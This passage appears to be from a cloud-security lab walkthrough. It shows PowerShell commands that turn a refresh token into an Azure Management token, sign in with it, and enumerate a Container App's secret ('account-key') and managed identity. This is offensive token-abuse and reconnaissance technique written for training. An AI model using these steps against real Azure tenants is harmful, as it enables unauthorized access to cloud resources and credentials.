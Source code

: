 ```
└─PS> Invoke-RefreshToAzureManagementToken -Domain megabigtech.com -RefreshToken $refreshtoken -Device AndroidMobile -Browser Android
✓  Token acquired and saved as $AzureManagementToken

token_type     : Bearer
scope          : https://management.azure.com/user_impersonation https://management.azure.com/.default
expires_in     : 4772
ext_expires_in : 4772

```
Now by using the acquired token, let's authenticate via Powershell Az module
```
└─PS> Connect-AzAccount -AccessToken $AzureManagementToken.access_token -AccountId 8517d020-a609-458f-9d4d-f36365a24833

Subscription name           Tenant
-----------------           ------
Microsoft Azure Sponsorship Default Directory

```
We have read access to an Azure Container App named `project-oakley`. Azure Container Apps is a serverless platform to build and deploy fully managed, cloud-native apps and microservices.
```
└─PS>  Get-AzResource

Name              : project-oakley
ResourceGroupName : mbt-rg-14
ResourceType      : Microsoft.App/containerApps
Location          : eastus
ResourceId        : /subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/mbt-rg-14/providers/Microsoft.App/containerApps/project-oakley
Tags          
```
`Get-AzContainerApp` shows a secret named `account-key` has been defined in the app. Secrets allow the Container App code to access credentials and other sensitive information without having them hard-coded in the application source code. We also see that a system managed identity has been assigned. A system managed identity can be assigned permissions and allows the application to access other Azure resources it may need.
```
└─PS> Get-AzContainerApp -ResourceGroupName "mbt-rg-14" -Name "project-oakley" | fl

Configuration                        : {
                                         "secrets": [
                                           {
                                             "name": "account-key"
                                           }
                                         ],
                                         "activeRevisionsMode": "Single",
                                         "maxInactiveRevisions": 100
                                       }
CustomDomainVerificationId           : 3A282EE32866205997C9E047B5811E83180CCA0DF43FCF096008BEDAD07F92EF
EnvironmentId                        : /subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/mbt-rg-14/providers/Microsoft.App/managedEnvironments/managedEnvironment-mbtrg14-883e
EventStreamEndpoint                  : https://eastus.azurecontainerapps.dev/subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/mbt-rg-14/containerApps/project-oakley/eventstream
ExtendedLocationName                 : 
ExtendedLocationType                 : 
Id                                   : /subscriptions/ceff06cb-e29d-4486-a3ae-eaaec5689f94/resourceGroups/mbt-rg-14/providers/Microsoft.App/containerapps/project-oakley
IdentityPrincipalId                  : 63410fce-5fe2-42f9-85cf-8463fff2d456
IdentityTenantId                     : 2590ccef-687d-493b-ae8d-441cbab63a72
IdentityType                         : SystemAssigned
```